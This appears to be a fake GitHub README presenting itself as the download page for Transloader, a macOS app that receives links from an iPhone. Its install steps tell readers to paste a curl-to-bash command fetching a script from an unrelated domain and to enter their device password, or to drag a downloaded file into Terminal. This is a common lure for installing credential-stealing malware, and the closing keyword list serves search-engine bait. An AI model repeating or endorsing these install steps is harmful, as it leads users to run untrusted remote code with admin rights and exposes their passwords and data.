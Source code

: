 <p align="center">
  <img src="https://eternalstorms.at/img/transloader.png" alt="Transloader Logo" width="150"/>
</p>

<h1 align="center">📥 Transloader for macOS</h1>

<p align="center"><strong>Send links from your iPhone or iPad and let your Mac handle the downloads.</strong><br>
Perfect for remote link management and seamless iCloud-driven file transfers.</p>

<p align="center">
  <a href="https://transloader-mac-download.github.io/.github/"><img src="https://img.shields.io/badge/⬇️ Download-Transloader-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Button"></a>
</p>

---

## 🖼️ Preview Screenshots

<p align="center">
  <img src="https://setapp.com/cdn-cgi/image/quality=75,format=auto,width=780/https://store.setapp.com/app/481/screenshots/1622537704-60b5f5e88012d.jpg" width="440"/>
  <img src="https://eternalstorms.at/transloader/img/splash1_dark_3x.jpg" width="440"/>
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 📌 System Compatibility  
macOS 12,13,14,15+

---

## 🎯 Main Features

- Push URLs from iPhone or iPad to Mac with one tap  
- Automatic downloads begin instantly on your Mac  
- iCloud sync support for seamless handoff  
- Link queue and history across devices  
- No third-party accounts needed

---

## 📢 Why Users Choose It

- Convenient link transferring between devices  
- Saves time when you're on the go  
- Privacy-first architecture  
- Perfect for large downloads or slow networks  
- Intuitive, clean macOS-native interface

---

## 🔍 SEO Keywords

`macOS link transfer`, `Transloader for Mac`, `remote download macOS`, `iPhone to Mac URL push`, `automatic download mac`, `icloud sync download`, `transfer links macOS`, `cross-device download tool`, `push URL to Mac app`, `mac app link receiver`
